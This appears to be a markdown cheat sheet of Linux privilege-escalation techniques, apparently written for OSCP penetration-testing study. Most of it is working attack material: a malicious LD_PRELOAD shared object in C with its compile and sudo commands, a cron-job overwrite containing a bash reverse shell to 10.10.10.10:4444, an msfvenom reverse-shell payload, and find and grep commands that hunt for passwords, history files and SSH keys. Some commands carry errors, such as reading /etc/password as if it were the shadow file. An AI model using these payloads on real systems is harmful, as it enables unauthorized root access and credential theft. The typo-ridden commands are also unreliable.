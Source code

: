 ```yaml
---
title: Linux Privilege Escalation 
---
```

## Links
https://cd6629.gitbook.io/oscp-notes/linux-privesc#path-environment-variable
https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html

## Service Exploits
Check vulnerable service running as root (web servers, mail servers, database servers,...etc)
```bash+
ps -elf | grep root

ps -ef | grep 'apache2' | grep -v `whoami` | grep -v root | head -n1 | awk '{print $1}'
```
Example MySQL as the root user without a password defined

https://recipeforroot.com/mysql-to-system-root/
## Bypass Sudo
### Shell Escape Sequences
Lists all commands the user can use with sudo permissions
```bash+
sudo -l
cat /etc/sudoers
```
Is it possbile to run a program with sudo without password?

We can become root by: https://gtfobins.github.io/
### Envarioment Variable (LD_PRELOAD)
LD_PRELOAD is an optional environmental variable containing one or more paths to shared libraries, or shared objects, that the loader will load before any other shared library including the C runtime library (libc.so) This is called preloading a library.

```bash+
user@debian:~$ sudo -l 
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD
```
Malicios object file. 
```bash
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
Lest compile and make object file.
```bash+
gcc -fPIC -shared -o evil.so evil.c -nostartfiles
```
Copy the file in the tmp folder and run the command have you allowed to do with sudo.
```bash+
sudo LD_PRELOAD=/tmp/evil.so <COMMAND>
```
## SUID Executables
An SUID is a file that allows a user to execute the file with the permissions of the file owner, an SGID is the same except with the group owner. If the owner is root, we can essentially run files with root permissions.

SUID bit is represented by an s.
```bash+
-rwsr-sr-x 1 root root 16712 Dec 26 19:02 suid
```
Search for vulnerble SUID file
```bash
python suid3num.py
```
See if you can indetify a vulnerable SUID bin. 
```bash
https://gtfobins.github.io/
```
## Cronjobs 
Cron jobs are programs or scripts which users can schedule to run at specific times or intervals. Cron table files (crontabs) store the configuration for cron jobs. The system-wide crontab is located at /etc/crontab.

View system-wide cron tables
```bash+
cat /etc/crontab
```
### File Permission
Search for cron job schedule that should run evey minute. Do you have write permission for this file? If yes modify the file with you payload.

Example:
```bash+
* * * * /tmp/overwrite.sh
```
Replace the contents of the overwrite.sh file with the following after changing the IP address to that of your kali box
```bash+
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```
Set up a netcat listner and wait for the cron job to run. 
### PATH Environment Variable
Search for a script without the absolute path define. See if you have access in one of the directory specify in PATH. 

Example:
```bash+
PATH=/tmp:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
*  *  *  *  *   root    overwrite.sh
```
The system looks for the file with this order: /tmp, /user/local/sbin, /usr/local/bin..etc. 
If you have privilege you can try to overwrite the file directoly or rename the file if you have permission in the directory. 
## Code Execution via Shared Object Library Loading
Haijacking Dynamically Linked Shared Object Libraries (.so files) is another method we can use to obtain privilege on linux. 

When an application that uses shared libraries runs, the OS searches for the library in the following order:

1) Any directories specified by rpath-link options (directories specified by rpath-link options are only effective at link time)
2) Any directories specified by –rpath options (directories specified by rpath options are included in the executable and used at runtime)
3) LD_RUN_PATH
4) LD_LIBRARY_PATH
5) Directories in the DT_RUNPATH or DT_RPATH.(DT_RPATH entries are ignored if DT_RUNPATH entries exist)
6) /lib and /usr/lib
7) Directories within /etc/ld.so.conf


The following attack paths can be followed to identify if a binary that uses shared libraries is going to be vulnerable to attack:

![](https://i.imgur.com/SCMJBcZ.png)

Shared Object Payload
```bash+
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<attacker IP> LPORT=<attacker port> -f elf-so -o program.so
```

*Note: Shared Object Library Loading has to be use in combination with a executable file running as root. it is necessary to have sudo or SUID for the bin file.*
## Passwrods & Keys
Can we rea configuration files that might contain sensitive information, passwords,etc..?
```bash
grep "password" /etc/*.conf 2> /dev/null
```
Can we read the shadow file?
```bash+
cat /etc/password
```
Can we least or read the contents of the /root directorty?
```bash+
ls -als /root
```
Can we read other users' history file?
```bash+
find /* -name *.*history* print 2>/dev/null
```
ssh keys
```bash+
find / -type f \( -name "*id_rsa*" -o -name "*authorized_keys*" -o -name "*identity*" -o -name "*id_dsa*" -o -name "*ssh_config*" -o -name "*ssh_host_dsa_key*" -o -name "*ssh_host_key*" \) 2> /dev/null | grep "ssh"
```
## Kernel Exploit
Kernel version:
```bash+
uname -a
cat /proc/version
cat /etc/issue
```
Precompiled exploits
```bash
https://github.com/offensive-security/exploitdb-bin-sploits/tree/master/bin-sploitskernel-exploits
https://github.com/lucyoa/kernel-exploits
```
## Restricted Shell
Restricted shells are simply shells with restricted permissions, features, or commands
```bash
https://null-byte.wonderhowto.com/how-to/escape-restricted-shell-environments-linux-0341685/
```